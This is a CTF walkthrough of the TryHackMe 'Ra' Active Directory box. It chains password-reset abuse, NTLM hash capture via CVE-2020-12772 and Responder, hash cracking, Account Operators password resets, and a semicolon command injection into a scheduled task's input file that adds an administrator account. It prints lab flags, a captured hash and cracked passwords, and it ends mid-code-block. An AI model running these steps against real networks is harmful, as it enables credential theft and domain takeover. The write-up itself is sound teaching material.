# NULLSECURE - FROM NULL TO ROOT

🎥 Video Walkthrough: [VIDEO_LINK](https://youtu.be/E5cRStDtXLw)

**Room:** [Ra](https://tryhackme.com/room/ra)
**Platform:** TryHackMe
**Difficulty:** Hard
**Target OS:** Windows (Active Directory)
**Domain:** `windcorp.thm`
**Hostname:** `FIRE.windcorp.thm`

---

## 1. Overview

Ra drops us into WindCorp's internal network with nothing but an IP address. The box chains together a weak web-based password-reset flow, a real-world CVE in an outdated internal chat client (Spark IM / Openfire), NTLM hash capture via Responder, and a classic Active Directory privilege-escalation primitive (Account Operators group abuse + scheduled-task command injection) to go from unauthenticated to Domain Admin-equivalent access.

The chain in one line:

**OSINT on the web app → password reset abuse → SMB foothold → CVE-2020-12772 (Spark IM) → NTLM capture via Responder → hash cracking → WinRM shell → Account Operators abuse → scheduled task command injection → full compromise.**

---

## 2. Recon

### Port scan

```bash
rustscan -a <ip> --ulimit 5000 -- -sC -sV
```



| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS 10.0 — site title "Windcorp." |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | MSRPC | |
| 139 / 445 | SMB | NetBIOS-SSN / microsoft-ds |
| 389 / 3268 | LDAP / GC | Domain: `windcorp.thm` |
| 443 | HTTPS | Windows Admin Center (self-signed, expired cert) |
| 464 | kpasswd5 | Kerberos password change |
| 593 | ncacn_http | RPC over HTTP |
| 636 / 3269 | LDAPS / GC SSL | |
| 2179 | vmrdp | |
| 3389 | RDP | `rdp-ntlm-info` leaks NetBIOS domain **WINDCORP**, computer name **FIRE**, DNS name **Fire.windcorp.thm** |
| 5222/5223/5262/5263/5269/5270/5275/5276 | Jabber/XMPP | Ignite Realtime **Openfire** 3.10.0+ |
| 5229 | jaxflow | Openfire component |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |
| 7070 / 7443 | HTTP / HTTPS | Openfire HTTP Binding Service (Jetty 9.4.18) |
| 7777 | socks5 | No auth |
| 9090 / 9091 | HTTP / HTTPS | **Openfire admin console** (nmap misidentifies these as Hadoop TaskTracker/DataNode — a known false-positive against Jetty-backed services) |
| 9389 | ADWS | Active Directory Web Services |
| 49668+ | MSRPC | Dynamic RPC ports |

Two things jump out immediately: this is a full Domain Controller (Kerberos, LDAP, ADWS, GC), and it's also running an **Openfire/Spark instant-messaging stack** internally — an unusual and immediately interesting attack surface for an AD box.

### Hosts file

```bash
sudo nvim /etc/hosts
```
```
<ip>    windcorp.thm Fire.windcorp.thm ra
```



---

## 3. Vulnerability Identification

### 3.1 Web app OSINT → password-reset abuse

Browsing the IIS site on port 80 surfaced a **forgot-password** flow.




Digging further into the site turned up a staff directory listing **three employees**.


Opening one of the employee photos directly (new tab) exposed the raw image path:

```
http://ra/img/lilyleAndSparky.jpg
```

The filename itself leaks the answer to the site's security question ("What is your favorite pet?") — employee `lilyle`'s pet is named **Sparky**. This is a classic information-disclosure bug: the security-question answer was baked into a publicly reachable filename instead of being kept secret server-side.




Using `Sparky` as the answer resets `lilyle`'s password:


New password: **`ChangeMe#1234`**


### 3.2 CVE-2020-12772 — Spark IM client

Once inside via SMB (see below), evidence pointed to the internal Openfire/Spark chat stack running a vulnerable client version — **Spark 2.8.3**, affected by [CVE-2020-12772](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md). The bug allows an attacker to embed an HTML `` tag pointing at an attacker-controlled server inside a chat message; when the victim's Spark client renders the message, it automatically attempts to fetch the image, leaking a **NetNTLMv2 hash** to the attacker in the process — a textbook forced-authentication / NTLM-capture primitive delivered over internal chat instead of email or SMB.

---

## 4. Exploitation

### 4.1 SMB foothold as lilyle

```bash
nxc smb ra -u 'lilyle' -p 'ChangeMe#1234'
```


```bash
nxc smb ra -u 'lilyle' -p 'ChangeMe#1234' --shares
# or
smbmap -u 'lilyle' -p 'ChangeMe#1234' -H ra -r
```



```bash
smbclient //ra/Shared -U lilyle
ls
prompt off
mget *
```


```bash
cat Flag\ 1.txt
```
**Flag 1:** `THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}`



### 4.2 Weaponizing the Spark IM CVE

The Spark 2.8.3 installer wouldn't install cleanly against a modern JDK, so the `.deb` needed manual patching:

```bash
sudo dpkg -i spark_2_8_3.deb
# fails — pre-depends on openjdk-8-jre / oracle-java8-jre, neither installed
```


```bash
dpkg-deb -x spark_2_8_3.deb spark_extracted
dpkg-deb -e spark_2_8_3.deb spark_extracted/DEBIAN
nano spark_extracted/DEBIAN/control

```


```bash
dpkg-deb -b spark_extracted spark_fixed.deb
sudo dpkg -i spark_fixed.deb

which spark
# /usr/bin/spark

sudo nano /usr/bin/spark
```
Added the following `java` module flags to the launcher so Spark would run on the installed JDK:
```
java_mods="--add-opens java.base/java.net=ALL-UNNAMED --add-opens java.base/java.lang=ALL-UNNAMED"

java ${java_mods} \
```


```bash
spark
```


Logged in as `lilyle` against the `windcorp.thm` Openfire server, then enabled the "Advanced" connection option before logging in.



### 4.3 Capturing NTLM authentication with Responder

```bash
sudo responder -I tun0
```

Back in Spark, opened a new chat to a second employee and started the conversation:

```
buse@fire.windcorp.thm
```


Sent the following message containing the malicious image tag:

```
A1GCH 
```


`buse`'s Spark client rendered the tag and attempted to fetch the "image," triggering an outbound NTLM authentication attempt straight into Responder's listener — capturing `buse`'s NetNTLMv2 hash.

### 4.4 Cracking the hash

```bash
echo 'buse::WINDCORP:ad8c8aa6deeb16f3:2F52115ECA221D1E116128A5D7D981EC:0101000000000000D4AFBFE21950DD01F4903D514838FBEE0000000002000800580048003500590001001E00570049004E002D0032004D004400470053005000560048004E00570045000400140058004800350059002E004C004F00430041004C0003003400570049004E002D0032004D004400470053005000560048004E00570045002E0058004800350059002E004C004F00430041004C000500140058004800350059002E004C004F00430041004C00080030003000000000000000010000000020000035411740702B02E720E233EF2E8797D6CDD12A31791FD263728322E954D0570D0A00100000000000000000000000000000000000090000000000000000000000' > hash.txt

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


Cracked credentials: **`buse : uzunLM+3131`**

### 4.5 Shell as buse

```bash
nxc smb ra -u 'buse' -p 'uzunLM+3131'
nxc winrm ra -u 'buse' -p 'uzunLM+3131'
```



```bash
evil-winrm -i ra -u buse -p 'uzunLM+3131'
```


```powershell
cat "Flag 2.txt"
```
**Flag 2:** `THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}`



---

## 5. Post-Exploitation

With a shell as `buse`, local enumeration turned up a scripts directory used by the WindCorp IT team:

```powershell
cd C:\scripts
ls
```


```powershell
.\checkservers.ps1
```


`checkservers.ps1` is an internal monitoring script — it turned out to be the mechanism later abused for privilege escalation (see below).

Checking current privileges and group membership:

```powershell
whoami /priv
whoami /groups
```


The key finding: `buse` is a member of **`WINDCORP\IT`** and, critically, **`BUILTIN\Account Operators`** — a built-in AD group that can create and manage most non-privileged user accounts (including resetting their passwords), without being a Domain Admin itself.

---

## 6. Privilege Escalation

### 6.1 Abusing Account Operators

Account Operators can reset the password of any non-protected domain user. Used that to take over `brittanycr`:

```powershell
net user brittanycr NullSecure!
```


### 6.2 Command injection via checkservers.ps1's input file

Connecting as `brittanycr` and pulling her home directory revealed `hosts.txt` — the host list consumed by the `checkservers.ps1` scheduled task:

```bash
smbclient //ra/Users -U brittanycr
cd brittanycr\
get hosts.txt
```


The script parses this file as a semicolon-delimited command list with no sanitization, which makes it directly injectable. Appended the following to `hosts.txt`:

```powershell
;net user A1GCH A1NullSecure! /add;net localgroup Administrators A1GCH /add
```


Re-uploaded the poisoned file:

```bash
smbclient //ra/Users -U brittanycr
cd brittanycr\
put hosts.txt
```

When the scheduled task next ran `checkservers.ps1` (under a privileged service context), it parsed the tampered `hosts.txt` and executed the injected commands — creating a new local Administrator, **`A1GCH`**, with password **`A1NullSecure!`**.

### 6.3 Full compromise

```bash
evil-winrm -i ra -u A1GCH -p 'A1NullSecure!'
```


```bash
xfreerdp /compression /cert:ignore +auto-reconnect /v:ra /u:A1GCH /p:'A1NullSecure!' +clipboard
```


```bash
